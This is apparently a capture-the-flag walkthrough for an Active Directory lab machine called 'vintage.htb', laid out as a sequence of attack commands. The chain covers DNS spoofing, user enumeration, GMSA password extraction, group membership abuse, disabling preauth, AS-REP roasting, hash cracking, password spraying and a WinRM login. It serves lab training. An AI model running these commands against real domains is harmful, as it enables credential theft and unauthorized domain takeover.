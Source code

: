 #Red-Team #Exploit #Tool #Generation #Payload #Vulnerability 

## What is a .ccache file?

#### A `.ccache` file stores Kerberos authentication tickets for accessing services securely.


## Requirements:

### [[Tools to download!]]

## Exploitation: 


## Step 1:

### Set the Target IP = `export TARGET=10.10.x.x` then use dnspoofing `python3 dnschef.py --fakeip $TARGET --fakedomains DOMAIN`


## Step 2:

### Get the Kerberos ticket for the user:  `getTGT.py vintage.htb/USER:PASSWORD` set the KRBCCNAME with `export KRB5CCNAME=.CCACHE FILE` Get all the users with **ldapdomaindump** or **nxc**: `nxc smb dc01.DOMAIN -d DOMAIN -k --use-kcache --rid-brute 5000 | grep SidTypeUser | cut -d: -f2 | cut -d \\ -f2 | cut -d' ' -f1 > users`


## Step 3:

### **Find computer account with password as hostname and save TGT:** Run the following to find the computer account:

### `pre2k unauth -d DOMAIN -dc-ip $TARGET -save -inputfile users
`
### and rename the `.ccache` file to the computer's hostname:

### `mv FS01\$.ccache FS01.ccache && export KRB5CCNAME=FS01.ccache`


## Step 4:

### **Get GMSA password:** Use `bloodyAD` to get the password for the GMSA:

### `bloodyAD --host dc01.DOMAIN -d "DOMAIN" --dc-ip $TARGET -k get object 'GMSA01$' --attr msDS-ManagedPassword
`
### Then, run `getTGT.py` with the GMSA account to get the TGT:

### `getTGT.py DOMAIN/'GMSA01$' -hashes :HASH && mv GMSA01\$.ccache GMSA01.ccache && export KRB5CCNAME=GMSA01.ccache`


## Step 5:

### **Add user to SERVICEMANAGERS:** Add the user USER, whose you got the password to the `SERVICEMANAGERS` group:

### `bloodyAD --host dc01.DOMAIN -d "DOMAIN" --dc-ip $TARGET -k add groupMember "SERVICEMANAGERS" "USER"

### and, get the TGT for `USER`:

### `getTGT.py vintage.htb/USER:PASSWORD && export KRB5CCNAME=USER.ccache`


## Step 6:

### **Set "Don't require preauth" flag for accounts:** Use `bloodyAD` to set the `DONT_REQ_PREAUTH` flag:

### `bloodyAD --host dc01.DOMAIN -d "DOMAIN" --dc-ip $TARGET -k add uac SVC_ARK -f DONT_REQ_PREAUTH && bloodyAD --host dc01.DOMAIN -d "VINTAGE.HTB" --dc-ip $TARGET -k add uac SVC_SQL -f DONT_REQ_PREAUTH
`
### **Enable the SVC_SQL account:** Use `bloodyAD` to enable the `SVC_SQL` account:

### `bloodyAD --host dc01.DOMAIN -d "DOMAIN" --dc-ip $TARGET -k remove uac SVC_SQL -f ACCOUNTDISABLE
`

## Step 7:

### **ASREPRoast the users:** Use `GetNPUsers.py` to perform ASREPRoasting and dump the hashes:

### `GetNPUsers.py -request -outputfile np.txt -format hashcat -usersfile users vintage.htb/
`
### Then crack it with `john`


## Step 8:

### **Password spray the users:** Use `kerbrute` to perform a password spray attack:

### `kerbrute_linux_amd64 --dc DOMAIN -d vintage.htb -v passwordspray users PASSWORD
`
### Don't forget to configure your `/etc/krb5.conf` file:

````
[libdefaults]
    default_realm = DOMAIN
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    VINTAGE.HTB = {
        kdc = dc01.DOMAIN
        admin_server = dc01.DOMAIN
    }

[domain_realm]
    .DOMAIN = DOMAIN
    DOMAIN = DOMAIN

````

## LAST step:

### **Login to Account:** Finally, use the obtained password to login to the account, whom you password cracked to:

### `getTGT.py vintage.htb/USER:PASSWORD && evil-winrm -i dc01.DOMAIN -r DOMAIN`
